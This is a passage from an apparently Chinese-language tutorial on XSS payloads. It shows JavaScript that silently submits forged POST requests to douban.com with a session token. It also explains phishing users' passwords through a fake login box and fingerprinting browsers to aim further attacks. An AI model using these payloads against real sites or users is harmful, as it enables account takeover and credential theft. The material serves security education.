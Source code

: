     form.submit();</pre>
如果表单的数据很多的话，使用构造DOM的方法，代码会变得很冗长。所以可以直接写HTML代码：
<pre class="lang:js decode:true">    var dd = document.createElement("div");
    document.body.appendChild(dd);
    dd.innerHTML = '&lt;form action="" method="post" id="xssform"&gt;'+
            '&lt;input type="hidden" value="JiUY" name="ck"&gt;'+
            '&lt;/form&gt;'
    document.getElementById("xssform").submit();</pre>
这样就能自动提交表单了。

另外使用`XMLHttpRequest`发送一个POST请求：
<pre class="lang:js decode:true">    var url = "http://www.douban.com";
    var postStr = "ck=JiUY&amp;mb_text=test1234";
    var ajax = null;
    if (window.XMLHttpRequest){
        ajax = new XMLHttpRequest();
    }
    else if(window.ActiveXObject){
        ajax  = new ActiveXObject("Microsoft.XMLHTTP");
    }
    else{

    }
    ajax.open("POST",url,true);
    ajax.setRequestHeader("Content-Type","application/x-www-form-urlencode");
    ajax.send(postStr);
    ajax.onreadystatechange = function () {
        if(ajax.readyState == 4 &amp;&amp; ajax.status == 200){
            alert("DONE");
        }
    }</pre>
这样也能提交成功。

通过这个例子可以知道，使用Javascript模拟浏览器发包并不是很困难的事情。

所以XSS攻击之后，攻击者出了可以实施Cookie劫持以外，还能模拟GET，POST请求操作用户的浏览器，这在某些隔离环境之中非常有效。

## XSS钓鱼

XSS并非万能，其攻击过程都是在浏览器中通过Javascript脚本自动进行的，缺乏和用户交互的过程。

比如党我们需要修改用户密码的过程中，在提交新密码之前都需要用户输入Old Password，而这个Old Password往往是用户所不知道的。

对于验证码来说，XSS Payload能够通过读取页面内容，将验证码图片的URL发送到远程服务器或者甚至使用OCR工具就能够自动识别验证码。

那么如果攻击者需要获得用户的密码，最简单的方法就是使用Javascript在当前页面画出一个伪造的登陆框，当用户在登陆框中输入用户名和密码后，其密码就能过被发送到攻击者的服务器上。

## 识别用户的浏览器

很多的时候，攻击者为了获得更大的利益，往往需要准确收集用户的个人信息，如果知道用户是用的浏览器，操作系统，攻击者就可以实施一次非常精准的浏览器内存攻击，最终给用户电脑植入一个木马。

最简单的识别方法莫过于读取浏览器的User-Agent对象：
<pre class="lang:js decode:true">navigator.userAgent
"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.102 Safari/537.36"</pre>
这个对象就能过告诉我们很多客户端的信息：
